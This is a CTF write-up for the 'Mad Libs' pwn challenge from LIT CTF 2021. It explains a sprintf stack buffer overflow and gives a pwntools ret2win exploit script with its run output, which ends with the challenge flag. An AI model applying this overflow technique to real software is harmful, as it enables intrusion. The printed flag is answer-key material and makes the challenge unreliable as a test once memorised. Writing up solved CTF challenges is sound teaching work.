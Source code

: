 # Lexington Informatics Tournament CTF 2021

## pwn/Mad Libs

> Rythm 
> 
> I made a fun mad libs game in C. I even got the formatters all right, at least I think. You should try it out!
> 
> `nc madlibs.litctf.live 1337`
>
> [madlibs_pwn.zip](madlibs_pwn.zip)


Tags: _pwn_ _x86-64_ _bof_ _ret2win_


## Summary

Basic `sprintf` BOF for ret2win.


## Analysis

### Checksec

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

No PIE, easy ROP.  No canary, easy BOF.  Partial RELRO, easy GOT.


### Decompile with Ghidra

```c
void win(void)
{
  char local_48 [56];
  FILE *local_10;
  
  local_10 = fopen("flag.txt","r");
  if (local_10 == (FILE *)0x0) {
    puts("Something is wrong. Please contact Rythm.");
    exit(1);
  }
  fgets(local_48,0x30,local_10);
  puts("Huh, I guess you did win. How does that even work? Well, here\'s the flag:");
  puts(local_48);
  return;
}
```

`win` function included, nice.


```c
void game(void)
{
  char local_108 [128];
  undefined local_88 [64];
  undefined local_48 [64];
  
  puts("First, enter a proper noun.");
  __isoc99_scanf(&%63s,local_48);
  puts("");
  puts("Now, enter an adjective.");
  __isoc99_scanf(&%63s,local_88);
  puts("");
  puts("Now, I\'ll combine them into a great sentence!\n");
  sprintf(local_108,"%s is so %s at deepspacewaifu! I wish I were %s like %s",local_48,local_88,local_88,local_48);
  puts("The final sentence is:");
  printf("\"%s\"\n",local_108);
  puts("");
  return;
}
```

`sprintf` is a buffer overflow vulnerability.

`local_108` is `0x108` from the return address, all that is necessary to get the flag is to overflow the buffer with `0x108` bytes followed by the address of `win`.  Easy.

`sprintf` writes to buffer `local_108` the contents of `local_48` and `local_88` each twice with `local_48` being last, so that's where we need to put our exploit.

It's important we do not use nulls in our exploit, they will just terminate the strings and `sprintf` will not write out more complex attacks like ROP chains.

Since this binary has no PIE the address for `main`, `game`, and `win` are all 3 bytes and are known, and since `main` called `game`, the return address will only be 3 bytes long.  So, we just need 3 bytes.

The math is pretty simple:  `0x108 + 3` (buffer size + payload) `- 2 * (60+3)` (max size of `local_48` (see `scanf`) is `63`) - `47` (the string `%s is so %s at deepspacewaifu! I wish I were %s like %s` with the `%s` removed).  That equals `94`, divide that by 2 to get the length of `local_88`:

`0x108 + 3 - 2 * 64 - 47 = 94; 94/2 = 47`

> Yeah, `47` again; it is just a coincidence, you could use `59+3` and `48` if you like, or `58+3` and `46`, ... 



## Exploit

```python
#!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF('./madlibs')

if args.REMOTE:
    p = remote('madlibs.lit-ctf-2021-2-codelab.kctf.cloud', 1337)
else:
    p = process(binary.path)

payload  = 60 * b'A'
payload += p64(binary.sym.win)[0:3]
payload += 47 * b'B'

p.sendline(payload)
p.stream()
```

Output:

```bash
# ./exploit.py REMOTE=1
[*] '/pwd/datajerk/litctf2021/madlibs_pwn/madlibs'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Opening connection to madlibs.lit-ctf-2021-2-codelab.kctf.cloud on port 1337: Done
== proof-of-work: disabled ==
I made a quick mad libs game!

First, enter a proper noun.

Now, enter an adjective.

Now, I'll combine them into a great sentence!

The final sentence is:
"AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x92\x11 is so BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB at deepspacewaifu! I wish I were cewaifu! I wish I were BBBBBBBBBBBBBBBBBBBBBBBB like BBBBBB like AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x92\x11"

Huh, I guess you did win. How does that even work? Well, here's the flag:
flag{n0w_1m_k1nd4_m4d_4t_th3_l1bs}
```
